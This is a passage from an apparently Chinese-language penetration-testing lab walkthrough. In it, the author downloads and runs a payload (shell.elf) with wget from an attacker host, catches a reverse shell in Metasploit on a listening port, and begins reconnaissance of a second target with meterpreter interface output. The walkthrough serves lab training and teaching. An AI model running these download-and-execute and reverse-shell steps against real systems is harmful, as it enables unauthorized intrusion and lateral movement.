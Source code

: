 使用上面获取的shell下载可执行shell，并执行

```plain
wget http://192.168.179.155:8080/shell.elf
./shell.elf
```

在执行之前，kail需要先开启对6789的监听

[![](assets/1705981930-a19daaf3a5ccdd9812d896b68f17fc90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143324-fa78f2d4-b826-1.png)

msf收到反弹的shell

## 3.攻击Target2

### 3.1信息收集

查看Target的ip地址发现有5个

```plain
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens33
Hardware MAC : 00:0c:29:29:03:ba
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.179.161
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::e62c:9b96:a8b2:5b56
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : ens37
Hardware MAC : 00:0c:29:29:03:c4
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
```